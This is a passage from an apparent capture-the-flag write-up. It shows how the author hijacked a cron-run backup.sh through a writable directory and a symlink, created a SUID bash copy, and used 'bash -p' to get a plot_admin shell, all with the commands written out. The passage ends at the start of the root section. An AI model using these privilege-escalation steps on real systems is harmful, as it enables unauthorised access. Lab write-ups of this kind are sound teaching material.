 There is also a cron job setup for it in **/etc/crontab**:

```
* *     * * *   plot_admin /var/www/scripts/backup.sh
```

The **backup.sh** file is read only, but we do have write access to the directory it's in so we should be able to create a symbolic link from **backup.sh** and point it to a script of our choosing to laterally move over to the **plot_admin** account.

I create a script called **test.sh** with the following inside it:

```
cp /bin/bash ./shell.sh
chmod +xs ./shell.sh
```

And then link **backup.sh** over to my script and make it executable:

`ln -sf test.sh backup.sh`
`chmod +x test.sh`

```
lrwxrwxrwx 1 www-data www-data    7 Feb 20 04:44 backup.sh -> test.sh
-rwxrwxrwx 1 www-data www-data   45 Feb 20 04:43 test.sh
```

I wait for cron to run the backup.sh script which will in turn run my test.sh instead. After it runs you can see in **/home/plot_admin** that the newly created shell is there. If you look at the user/group it was created under it shows as plot_admin which is important for the next step. Also notice it has a **SUID** bit set since we instructed our script to do that.

```
-rwsr-sr-x  1 plot_admin plot_admin 1183448 Feb 20 04:47 shell.sh
```

If you look at the man page for **bash**, which is what this shell.sh is, you can see the following under the **INVOCATION** section:

```
If the -p option is supplied at invocation, the startup behavior is the same, but the effective user id is not reset.
```

So that means we can now run this with **-p** and it will drop us into a **plot_admin** shell:

```
www-data@plotted:/var/www/scripts$ /home/plot_admin/shell.sh -p
shell.sh-5.0$ whoami
plot_admin
```

I change over to his home directory and get the **user.txt** flag.

<br>

## Root

I search around the system for awhile and eventually see this in the **/etc/doas.conf** file:
